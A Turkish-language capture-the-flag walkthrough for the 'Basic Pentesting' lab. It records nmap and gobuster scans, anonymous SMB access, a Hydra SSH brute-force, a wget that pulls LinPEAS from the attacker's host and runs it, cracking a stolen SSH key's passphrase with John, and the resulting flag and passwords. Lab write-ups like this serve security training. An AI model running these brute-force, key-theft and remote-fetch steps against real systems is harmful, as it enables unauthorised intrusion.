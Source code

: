 # Basic Pentesting CTF

## 1.Adım Ping Taraması
Hedef makinenin erişilebilir olup olmadığını kontrol etmek için bir ping taraması:
```bash
ping Machine_IP
```
## 2.Adım Nmap Tarama
Nmap ile hedef IP üzerinde port ve versiyon taraması:
```bash
nmap --top-ports 100 -sV Machine_IP
```
Nmap Tarama Sonuçları:
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-05 13:37 EDT
Nmap scan report for Machine_IP
Host is up (0.066s latency).
Not shown: 94 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13?
8080/tcp open  http-proxy
```
## 3. Adım: Gobuster Taraması
Gobuster ile hedef IP üzerinde dizin taraması:
```bash
gobuster dir -u Machine_IP -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```
Gobuster Sonucu:

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://Machine_IP
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 295]
/.hta                 (Status: 403) [Size: 290]
/development          (Status: 301) [Size: 316] [--> http://Machine_IP/development/]
/index.html           (Status: 200) [Size: 158]
/server-status        (Status: 403) [Size: 299]
Progress: 4734 / 4735 (99.98%)
===============================================================
Finished
===============================================================
```
## 4. Adım: SMB 445 Portunu Kontrol
SMB zafiyetlerini kontrol etmek için:
```bash
nmap --script="smb-vuln-*" 10.10.15.28
```
Sonuç: 
```bash
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: false
| smb-vuln-regsvc-dos: 
|   VULNERABLE:
|   Service regsvc in Microsoft Windows systems vulnerable to denial of service
|     State: VULNERABLE
|       The service regsvc in Microsoft Windows 2000 systems is vulnerable to denial of service caused by a null deference
|       pointer. This script will crash the service if it is vulnerable. This vulnerability was discovered by Ron Bowes
|       while working on smb-enum-sessions.
|_          
```
## 5. Adım: SMB Enumeration ile Anonymous Girişi
Anonymous erişim ile dosyaları kontrol ediyoruz:
```bash
smbclient //Machine_IP/anonymous
Password for [WORKGROUP\root]:
smb: \> ls
  .                                   D        0  Thu Apr 19 13:31:20 2018
  ..                                  D        0  Thu Apr 19 13:13:06 2018
  staff.txt                           N      173  Thu Apr 19 13:29:55 2018

                14318640 blocks of size 1024. 11094416 blocks available
smb: \> get staff.txt
getting file \staff.txt of size 173 as staff.txt (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
```
Dosyayı okuyoruz:
```bash
cat staff.txt
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay

```
## 6. Adım: Şifre için Hydra ile Bruteforce
Şifreyi bulmak için Hydra ile brute-force saldırısı yapıyoruz:
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt -t 16 -V Machine_IP ssh
```
Sonuç:
```bash
[22][ssh] host: Machine_IP   login: jan   password: armando
```

7. Adım: SSH ile Sunucuya Bağlanma ve Yetki Yükseltme
SSH ile bağlanıyoruz ve Linpeas.sh'yi indiriyoruz:
```bash
ssh jan@Machine_IP
```
Yetki yükseltmek için öncelikle kendi makinemizde bi sunucu başlatıyoruz
```bash
python3 -m httt.server 80
```
Jan ile `/tmp` klasörüne gidiyoruz, `LinPeas`ı yüklüyoruz ve çalıştırıyoruz :
```bash
cd /tmp
wget http://tun0_ip/Linpeas.sh
chmod +x Linpeas.sh
./Linpeas.sh
```
Linpeas bize bir dosya buluyor:
```bash
Possible private SSH keys were found!
/home/kay/.ssh/id_rsa
```
id_rsa dosyasını kendi makinemize yüklüyoruz ve `kay` kullanıcısı ile bağlanmayı deniyoruz:
```bash
ssh -i kay_id_rsa kay@Machine_IP
```
Komutu çalıştırdığımızda bizden `Enter passphrase for key 'kay_id_rsa'`i istiyor.

Bunun için `JohnTheRipper` toolunu kullanıyoruz:
```bash
/opt/JohnTheRipper/run/ssh2john.py kay_id_rsa > kay_id_rsa.txt
/opt/JohnTheRipper/run/john kay_id_rsa.txt --wordlist=/usr/share/wordlist/rockyou.txt
```
Passphrase: `beeswax`

## 8. Adım: Kay ile Sunucuya Bağlanma ve Flag
SSH ile kay kullanıcısına bağlanıyoruz:
```bash
ssh -i kay_id_rsa kay@Machine_IP
```
Kay dizinine gidiyoruz ve flagi buluyoruz:
```bash
cd /home/kay
cat pass.bak
```
Flag:
```bash
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```



















